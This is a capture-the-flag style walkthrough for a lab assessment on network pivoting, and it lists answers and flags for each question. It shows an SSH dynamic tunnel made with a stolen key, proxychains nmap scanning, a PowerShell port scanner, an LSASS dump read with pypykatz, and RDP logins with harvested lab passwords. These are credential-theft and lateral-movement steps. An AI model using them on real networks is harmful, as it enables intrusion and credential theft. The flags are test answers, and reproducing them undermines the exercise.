



# Section 16: Skills Assessment

Module: 12. Pivoting, Tunneling, and Port Forwarding

---

## Questions & Answers

### 1. Once on the webserver, enumerate the host for credentials that can be used to start a pivot or tunnel to another host in the network. In what user's directory can you find the credentials? Submit the name of the user as the answer.

Context:
```bash
www-data@inlanefreight.local:/home/webadmin# cat for-admin-eyes-only
# note to self,
in order to reach server01 or other servers in the subnet from here you have to us the user account:mlefay
with a password of :
Plain Human work!
```

**Answer:** `webadmin`

---

### 2. Submit the credentials found in the user's home directory. (Format: user:password)


**Answer:** `mlefay:Plain Human work!`

---

### 3. Enumerate the internal network and discover another active host. Submit the IP address of that host as the answer.

Context:
- Create the tunnel, use the `id_rsa` private key of `webadmin`:
```bash
┌─[eu-academy-2]─[10.10.14.216]─[htb-ac-2162140@htb-pnp58pkhzc-htb-cloud-com]─[~]
└──╼ [★]$ vim id_rsa
┌─[eu-academy-2]─[10.10.14.216]─[htb-ac-2162140@htb-pnp58pkhzc-htb-cloud-com]─[~]
└──╼ [★]$ chmod 600 id_rsa 
┌─[eu-academy-2]─[10.10.14.216]─[htb-ac-2162140@htb-pnp58pkhzc-htb-cloud-com]─[~]
└──╼ [★]$ ssh -D 9050 -i id_rsa webadmin@10.129.229.129
┌─[eu-academy-2]─[10.10.14.216]─[htb-ac-2162140@htb-pnp58pkhzc-htb-cloud-com]─[~]
└──╼ [★]$ netstat -ltnp | grep 9050
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:9050          0.0.0.0:*               LISTEN      19904/ssh           
tcp6       0      0 ::1:9050                :::*                    LISTEN      19904/ssh           
```
- The internal IP of `inlanefreight` machine is `172.16.5.15`:
```bash
webadmin@inlanefreight:~$ ifconfig
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.229.129  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:fe8a:4081  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:fe8a:4081  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:8a:40:81  txqueuelen 1000  (Ethernet)
        RX packets 323  bytes 46773 (46.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 404  bytes 85065 (85.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 172.16.5.15  netmask 255.255.0.0  broadcast 172.16.255.255
        inet6 fe80::250:56ff:fe8a:43e7  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:8a:43:e7  txqueuelen 1000  (Ethernet)
        RX packets 359  bytes 23612 (23.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 2016 (2.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 1068  bytes 83875 (83.8 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1068  bytes 83875 (83.8 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
- Ping sweep:
```bash
webadmin@inlanefreight:~$ for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
64 bytes from 172.16.5.15: icmp_seq=1 ttl=64 time=0.021 ms
64 bytes from 172.16.5.35: icmp_seq=1 ttl=128 time=2.38 ms
```

**Answer:** `172.16.5.35`

---

### 4. Use the information you gathered to pivot to the discovered host. Submit the contents of C:\Flag.txt as the answer.

Context:
- Emuneration:
```bash
proxychains nmap -sC -sV -v 172.16.5.35

PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH for_Windows_8.9 (protocol 2.0)
| ssh-hostkey: 
|   256 0e:29:c7:ed:0b:4c:80:87:a7:89:3f:b0:45:59:d9:17 (ECDSA)
|_  256 f3:e7:0b:01:fa:ac:9c:5b:fa:9c:0e:79:10:6c:9d:1f (ED25519)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=PIVOT-SRV01.INLANEFREIGHT.LOCAL
| Issuer: commonName=PIVOT-SRV01.INLANEFREIGHT.LOCAL
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-08-11T01:27:45
| Not valid after:  2027-02-10T01:27:45
| MD5:   faf6:4f84:d847:4208:d6dd:2c80:e312:0c8d
|_SHA-1: f510:a75a:4d87:ea0e:fc27:ddbf:599e:fa15:4fe6:ca7f
| rdp-ntlm-info: 
|   Target_Name: INLANEFREIGHT
|   NetBIOS_Domain_Name: INLANEFREIGHT
|   NetBIOS_Computer_Name: PIVOT-SRV01
|   DNS_Domain_Name: INLANEFREIGHT.LOCAL
|   DNS_Computer_Name: PIVOT-SRV01.INLANEFREIGHT.LOCAL
|   DNS_Tree_Name: INLANEFREIGHT.LOCAL
|   Product_Version: 10.0.17763
|_  System_Time: 2026-08-12T01:44:56+00:00
|_ssl-date: 2026-08-12T01:45:08+00:00; +4s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 3s, deviation: 0s, median: 2s
| smb2-time: 
|   date: 2026-08-12T01:45:01
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```
- RDP to the target:
```bash
┌─[eu-academy-2]─[10.10.14.216]─[htb-ac-2162140@htb-pnp58pkhzc-htb-cloud-com]─[~]
└──╼ [★]$ KRB5_CONFIG=/dev/null proxychains xfreerdp /v:172.16.5.35 /u:mlefay /p:'Plain Human work!' /dynamic-resolution /cert:ignore +clipboard
```


**Answer:** `S1ngl3-Piv07-3@sy-Day`

---

### 5. In previous pentests against Inlanefreight, we have seen that they have a bad habit of utilizing accounts with services in a way that exposes the users credentials and the network as a whole. What user is vulnerable?

Context:
```bash
─[eu-academy-2]─[10.10.14.216]─[htb-ac-2162140@htb-pnp58pkhzc-htb-cloud-com]─[/tmp/loot]
└──╼ [★]$ pypykatz lsa minidump ./lsass.DMP 

== LogonSession ==
authentication_id 162398 (27a5e)
session_id 0
username vfrank
domainname INLANEFREIGHT
logon_server ACADEMY-PIVOT-D
logon_time 2026-08-12T01:28:08.857984+00:00
sid S-1-5-21-3858284412-1730064152-742000644-1103
luid 162398
	== MSV ==
		Username: vfrank
		Domain: INLANEFREIGHT
		LM: NA
		NT: 2e16a00be74fa0bf862b4256d0347e83
		SHA1: b055c7614a5520ea0fc1184ac02c88096e447e0b
		DPAPI: 97ead6d940822b2c57b18885ffcc5fb400000000
	== WDIGEST [27a5e]==
		username vfrank
		domainname INLANEFREIGHT
		password None
		password (hex)
	== Kerberos ==
		Username: vfrank
		Domain: INLANEFREIGHT.LOCAL
		Password: Imply wet Unmasked!
<SNIP>
```

**Answer:** `vfrank`

---

### 6. For your next hop enumerate the networks and then utilize a common remote access solution to pivot. Submit the C:\Flag.txt located on the workstation.

Context:
- From the `mlefay` RDP ping services, *i don't know why the normal ping sweep doesn't work for me so I use this*:
```powershell
PS C:\Users\mlefay> $ports = 22,80,135,139,443,445,3389,5985
>> 1..254 | % {
>>     $ip = "172.16.6.$_"
>>     if ($ip -eq "172.16.6.35") { return }  # skip self
>>     foreach ($port in $ports) {
>>         $tcp = New-Object System.Net.Sockets.TcpClient
>>         $iar = $tcp.BeginConnect($ip, $port, $null, $null)
>>         if ($iar.AsyncWaitHandle.WaitOne(300,$false)) {
>>             try { $tcp.EndConnect($iar); "$ip : $port open" } catch {}
>>         }
>>         $tcp.Close()
>>     }
>> }
172.16.6.25 : 135 open
172.16.6.25 : 139 open
172.16.6.25 : 445 open
172.16.6.25 : 3389 open
172.16.6.25 : 5985 open
```
- RDP to `172.16.6.25` with credentials `vfrank:Imply wet Unmasked!`, and open `C:\Flag.txt`:



**Answer:** `N3twOrk-HOpp1ng-fOR-FuN`

---

### 7. Submit the contents of C:\Flag.txt located on the Domain Controller.

Context:
- From File Explorer, found `AutomateDCAdmin (Z:)`:


**Answer:** `3nd-0xf-Th3-R@inbow!`

---


[Back to Module Index](./README.md)
